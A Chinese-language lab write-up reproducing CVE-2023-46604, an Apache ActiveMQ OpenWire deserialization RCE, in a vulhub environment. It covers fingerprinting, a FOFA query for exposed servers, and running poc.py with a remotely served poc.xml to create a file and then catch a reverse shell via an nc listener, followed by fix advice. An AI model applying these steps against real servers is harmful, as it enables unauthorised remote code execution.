

# Apache ActiveMQ RCE 

## 漏洞编号

CVE-2023-46604


## 漏洞描述

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。
OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。

在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。


## 影响版本

Apache ActiveMQ <= 5.18.2


## ActiveMQ指纹信息

```
端口：
	8161
服务器：
	jetty
banner：
	server:activemq
	magic:activemq
	realm="activemqrealm"
头部：
	realm="activemqrealm"
```


## 相关工具

reshell编码

[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)


## FOFA语法

```
app="APACHE-ActiveMQ"&&port="8161"&&status_code="200"&&country="CN"
```


## 环境配置

vulhub启动环境

```
docker-compose up -d
```


访问192.168.1.15:8161验证


成功部署


## 漏洞复现

```
服务器：192.168.1.1
靶机：192.168.1.15
攻击机：192.168.1.21
```


在pox.xml路径下开启http服务

```
python -m http.server 9999
```


检查poc.xml内容


即在/tmp目录下创建success文件


执行poc.py

```
python3 poc.py
```


需要提供 目标ip 目标端口 http服务下的poc.xml

```
python3 poc.py 192.168.1.15 61616 http://192.168.1.1:9999/poc.xml
```


发送请求


成功记录日志


进入容器中验证

```
docker ps
docker exec -it b99b5c6c9657 /bin/bash
```


成功创建


尝试反弹shell

开启监听

```
nc -lvp 443
```


修改http服务器下的poc.xml内容

[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)


再次执行

```
python3 poc.py 192.168.1.15 61616 http://192.168.1.1:9999/poc.xml
```




成功弹回shell


## 修复建议

- 升级ActiveMQ版本
- 增加访问验证
  - ActiveMQ默认开放了61616端口
  - 我们可以通过修改配置文件，使访问61616端口是需要进行登录验证
- 配置防火墙